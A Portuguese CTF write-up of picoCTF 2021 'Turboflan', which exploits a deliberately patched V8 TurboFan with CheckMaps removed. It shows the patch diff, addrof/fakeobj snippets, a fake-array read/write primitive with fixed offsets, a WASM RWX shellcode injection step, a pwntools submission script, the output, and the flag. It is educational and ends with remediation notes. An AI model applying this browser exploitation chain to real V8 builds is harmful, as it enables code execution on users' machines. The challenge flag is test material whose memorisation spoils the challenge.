

# Turboflan | picoCTF 2021

`pwn` `browser` `v8` `turbofan` `type-confusion` `jit` `wasm-rwx`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2021 |
| **Categoria** | Binary Exploitation |
| **Dificuldade / pontos** | Hard |
| **Autor do desafio** | wparks |
| **Resolvido em** | 2026-05-18 |

## TL;DR

O desafio dá um `d8` (shell do V8) com um patch que **comenta a checagem de mapa** (`CheckMaps`) no compilador TurboFan. Com isso, código JIT otimizado para um array de `double` continua rodando quando o objeto é, na real, um array de ponteiros, um type confusion. A partir dele construo `addrof`/`fakeobj`, forjo um array de `double` falso com `elements` controlado (leitura/escrita arbitrária), vazo a página RWX de um módulo WebAssembly, escrevo um shellcode de `open`/`read`/`write` lá e o executo. O shellcode imprime `flag.txt`.

> [!IMPORTANT]
> **Ideia-chave:** remover o `CheckMaps` deixa o código otimizado confiar no "tipo" que ele assumiu na compilação. Se eu trocar o mapa do objeto depois, o JIT lê/escreve com o layout errado, e isso vira leitura/escrita arbitrária.

## Enunciado

> A Radiant Gourmet Flan told our young Turboflan hero to stop rushing and slow down. Has he listened?

**Dicas oficiais:**

> 1. There are a bunch of public writeups on v8 exploitation. Find the relevant ones.
> 2. There likely are many ways to solve this problem.

**Arquivos:** `d8`, `source.tar.gz` (o `patch` aplicado ao V8 e a `REVISION`), `server.py`. **Instância:** serviço que recebe um script JS, roda no `./d8` e devolve a saída (timeout de 20s).

## Dicas progressivas

<details><summary>Dica 1</summary>Leia o <code>patch</code>. Algo foi removido do compilador TurboFan.</details>
<details><summary>Dica 2</summary>O <code>DeoptimizeIfNot(kWrongMap, ...)</code> do <code>LowerCheckMaps</code> foi comentado: o código otimizado não revalida mais o mapa do objeto.</details>
<details><summary>Dica 3</summary>Type confusion entre array de double e array de objetos → <code>addrof</code>/<code>fakeobj</code> → array falso para R/W arbitrário → sobrescrever a página RWX de um <code>WebAssembly.Instance</code> com shellcode.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `python3` (`pwntools` para falar com o serviço) e o `d8` fornecido para testar localmente.
- **Arquivos:** `d8`, `server.py`, `scripts/exploit.js`, `scripts/turbofan.patch` na raiz da pasta do desafio.

Teste local:

***INSERIR no terminal: Kali (atacante)

```bash
./d8 scripts/exploit.js
```

## Resolução

### 1. O bug no patch

O `source/patch` (cópia em [`scripts/turbofan.patch`](scripts/turbofan.patch)) mexe em `LowerCheckMaps`, em `effect-control-linearizer.cc`:

```diff
       if (i == map_count - 1) {
-        __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
-                           frame_state, IsSafetyCheck::kCriticalSafetyCheck);
+        // This makes me slow down! Can't have! Gotta go fast!!
+        // __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, ...);
```

`CheckMaps` é o nó que, no código otimizado, revalida que o objeto ainda tem o mapa (o "tipo"/shape) assumido na compilação; se não tiver, faz *deopt*. Comentando isso, o código JIT passa a confiar cegamente no mapa que viu ao otimizar.

> [!TIP]
> **Conceito: `Map` e type confusion no V8.** Todo objeto JS tem um `Map` (hidden class) que descreve seu layout e o tipo dos elementos (ex.: `PACKED_DOUBLE_ELEMENTS` vs `PACKED_ELEMENTS`). O TurboFan especializa o código pelo mapa visto e protege com `CheckMaps`. Sem essa checagem, se eu otimizo uma função para um array de `double` e depois a chamo com um array de objetos (mesmo "formato"), o código lê ponteiros como se fossem `double` e vice-versa, a base de `addrof`/`fakeobj`. Referência: [V8: Maps/Hidden Classes](https://v8.dev/blog/fast-properties).

O patch ainda remove globais do `d8` (`read`, `load`, `os`, `quit`...) para cortar soluções não intencionais e adiciona um `Breakpoint()` (`int3`) para debug. A `REVISION` fixa o commit do V8 (`506aeae9...`), que define os offsets usados.

### 2. `addrof` e `fakeobj`

Otimizo duas funções (`rd` para array de `double`, `ro` para array de objetos) chamando-as 100000 vezes para o TurboFan compilar. Depois, por causa do `CheckMaps` ausente, uso `rd` sobre um array de objetos para ler um ponteiro como `double` (`addrof`) e `ro` sobre um array de `double` para transformar um valor em ponteiro de objeto (`fakeobj`):

```js
function addrof(o){ let a=[o,{},{}]; return lo(ftoi(rd(a))); }
function fakeobj(a){ fa[0]=itof(a); return ro(fa); }
```

### 3. Array falso = leitura/escrita arbitrária

Com `addrof`/`fakeobj` monto um array de `double` falso cujo ponteiro de `elements` eu controlo. Escrevendo um mapa de `double` (`DMAP`) e um comprimento no corpo de um array real (`fs`), e apontando o array falso para 0x20 antes dele, consigo mover o ponteiro de `elements` para qualquer endereço e ler/escrever 64 bits ali:

```js
const DMAP=0x081c39f1n;  // mapa de PACKED_DOUBLE_ELEMENTS (uncompressed, revisão fixa)
const EMPTY=0x0804222dn; // empty_fixed_array
// ... fs[0]/fs[1] recebem map+elements forjados; fake = fakeobj(addrof(fs)-0x20)
function r64raw(raw){ setel(raw); return ftoi(fake[0]); }
function w64raw(raw,v){ setel(raw); fake[0]=itof(v); }
```

Uma checagem (`head == DMAP`) confirma que o array falso está alinhado antes de prosseguir.

### 4. Shellcode na página RWX do WebAssembly

O V8 aloca uma página **RWX** para o código JIT de um módulo WebAssembly. Crio um módulo mínimo, vazo o ponteiro dessa página pelo `WebAssembly.Instance` (`wi + 0x68`), aponto o backing store de um `DataView` para lá (R/W arbitrário via `rwab + 0x14`), escrevo o shellcode e chamo a função exportada:

```js
let rwx = r64off(wi_addr, 0x68);     // ponteiro da página RWX
setrw(rwx);                          // DataView aponta para a página
for (let i=0;i<sc.length;i++) rwdv.setUint8(i, sc[i]);  // grava shellcode
wf();                                // executa
```

O shellcode (x86-64) faz `open("flag.txt")`, `read` e `write(1, ...)` e sai, ele mesmo imprime a flag, já que o servidor só devolve o stdout do `d8` (não há shell interativo).

### 5. Enviando para o serviço

O `server.py` pede o tamanho do script e então o conteúdo, roda no `d8` e devolve `Stdout`/`Stderr`.

***INSERIR no terminal: Kali (atacante)

```bash
python3 - <<'PY'
from pwn import *
from pathlib import Path
data = Path("scripts/exploit.js").read_bytes()
io = remote("<host-da-instância>", 0)   # troque host/porta pela sua instância
io.sendlineafter(b"Provide size. Must be < 5k:", str(len(data)).encode())
io.sendlineafter(b"Provide script please!!", data)
io.stream()
PY
```

```text
Stdout b'fs=0x80b01b9\nfake=0x80b0199\ncheck=0x80b0309\nhead=0x804222d081c39f1\nwi=0x8193531\nrwx=0xc834de57000\npicoCTF{Good_job!_Now_go_find_a_real_v8_cve!_460f4f0dd7c27afe}\n'
```

O `head=0x804222d081c39f1` bate com `(EMPTY<<32)|DMAP`, confirmando o array falso; `rwx` é a página de código do WASM; e a última linha é a flag impressa pelo shellcode.

## Cadeia de ataque



## Por que funciona

O `CheckMaps` é a garantia de que o código otimizado só roda com o tipo que ele assumiu. Removê-lo quebra exatamente essa suposição: o JIT interpreta a mesma memória ora como `double`, ora como ponteiro, dando `addrof`/`fakeobj`. Com essas duas primitivas eu forjo um objeto array cujo `elements` aponta para onde eu quiser, o que é leitura/escrita arbitrária de 64 bits. A partir daí, a página RWX do WebAssembly é um alvo clássico: é executável e gravável, então escrevo shellcode e desvio a execução para ele. Os endereços fixos (`DMAP`, `EMPTY`, offsets `+0x68`/`+0x14`) valem porque a `REVISION` fixa a build do V8 (sem pointer compression nesta versão).

## Remediação

- Não é um bug "real": o patch introduziu a falha de propósito removendo o `CheckMaps`. A correção é manter a revalidação de mapa no código otimizado (o `DeoptimizeIfNot(kWrongMap, ...)`).
- Em geral: páginas de código JIT/WASM não deveriam ser RW e X ao mesmo tempo (W^X), o que quebra o passo final do shellcode.

## Lições e padrões

- **Sinais para reconhecer:** num desafio de V8 com patch, o diff quase sempre aponta o bug. `CheckMaps`/`CheckBounds` removidos = type confusion / OOB.
- **Da próxima vez eu tentaria primeiro:** ler o `patch` e a `REVISION` antes de tudo, e reaproveitar a estrutura addrof→fakeobj→fake array→WASM RWX dos writeups públicos de v8.
- **Onde perdi tempo:** acertar os endereços fixos (`DMAP`/`EMPTY`) e o offset da página RWX (`wi+0x68`) para a revisão exata, rodadas locais com `./d8` validaram antes do remoto.

## Referências

- [V8: Fast properties / Maps](https://v8.dev/blog/fast-properties)
- [Exploiting TurboFan `CheckMaps` (writeups públicos de v8)](https://mdsec.co.uk/2019/08/introduction-to-v8-exploitation/)
- picoCTF 2021, Turboflan (inspirado no problema de v8 do DownUnderCTF 2020)

## Flag

```text
picoCTF{Good_job!_Now_go_find_a_real_v8_cve!_460f4f0dd7c27afe}
```
